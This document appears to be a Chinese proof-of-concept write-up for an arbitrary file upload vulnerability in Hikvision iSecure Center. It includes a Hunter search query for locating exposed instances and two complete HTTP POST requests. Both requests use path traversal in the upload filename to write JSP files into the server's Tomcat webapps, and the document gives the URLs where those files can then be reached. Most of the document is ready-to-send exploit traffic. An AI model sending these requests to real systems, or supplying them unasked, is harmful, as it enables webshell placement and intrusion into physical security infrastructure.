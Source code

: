# 海康威视iSecure Center综合安防管理平台center任意文件上传漏洞

# 1、漏洞描述
<font style="color:rgb(0, 0, 0);">HIKVISION iSecure Center综合安防管理平台是一套“集成化”、“智能化”的平台，通过接入视频监控、一卡通、停车场、报警检测等系统的设备，获取边缘节点数据，实现安防信息化集成与联动，以电子地图为载体，融合各系统能力实现丰富的智能应用。HIKVISION iSecure Center平台基于“统一软件技术架构”先进理念设计，采用业务组件化技术，满足平台在业务上的弹性扩展。该平台适用于全行业通用综合安防业务，对各系统资源进行了整合和集中管理，实现统一部署、统一配置、统一管理和统一调度。海康威视isecure center 综合安防管理平台存在任意文件上传漏洞</font>

# <font style="color:rgb(0, 0, 0);">2、影响版本</font>
<font style="color:rgb(0, 0, 0);">HIKVISION iSecure Center综合安防管理平台 </font>

![1691858081036-d871cda5-31d1-4693-a77d-41c0bb876b49.png](./img/QD4KsFbI2-Z4evtl/1691858081036-d871cda5-31d1-4693-a77d-41c0bb876b49-481067.png)

# <font style="color:rgb(0, 0, 0);">3、资产测绘</font>
**hunter查询语法：**

`app.name=="Hikvision 海康威视 iSecure Center"`

# 4、漏洞复现
## POC1
漏洞地址：`/center/api/files;.js`

```java
POST /center/api/files;.js HTTP/1.1
Host: 127.0.0.1
User-Agent: python-requests/2.26.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 257
Content-Type: multipart/form-data; boundary=ea26cdac4990498b32d7a95ce5a5135c

--ea26cdac4990498b32d7a95ce5a5135c
Content-Disposition: form-data; name="file"; filename="../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/153107606.jsp"
Content-Type: application/octet-stream

332299402
--ea26cdac4990498b32d7a95ce5a5135c--
```

![1691858525729-8505d3a1-1815-44de-ba94-bf36c31e5c62.png](./img/QD4KsFbI2-Z4evtl/1691858525729-8505d3a1-1815-44de-ba94-bf36c31e5c62-308053.png)

上传后的文件位置`/clusterMgr/1.jsp;.js`

```plain
https://xx.xx.xx.xx/clusterMgr/153107606.jsp;.js
```

![1691858698425-bf786d03-8a91-461c-8cbc-ea6ab174e23e.png](./img/QD4KsFbI2-Z4evtl/1691858698425-bf786d03-8a91-461c-8cbc-ea6ab174e23e-251565.png)

## POC2
```plain
POST /center/api/files;.html HTTP/1.1
Host: xx.xx.xx.xx
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%out.print("test3");%>

------WebKitFormBoundary9PggsiM755PLa54a--
```

![1691866428821-18013ca7-2c86-4b10-a27b-a8265441742c.png](./img/QD4KsFbI2-Z4evtl/1691866428821-18013ca7-2c86-4b10-a27b-a8265441742c-260468.png)

上传文件位置

```plain
https://xx.xx.xx.xx/portal/ui/login/..;/..;/new.jsp
```

![1691866500572-0f02ac1e-89f5-4396-9fc1-0c232006d77a.png](./img/QD4KsFbI2-Z4evtl/1691866500572-0f02ac1e-89f5-4396-9fc1-0c232006d77a-407509.png)



> 更新: 2024-02-29 23:57:17  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fg3xig9qvdpm4qbg>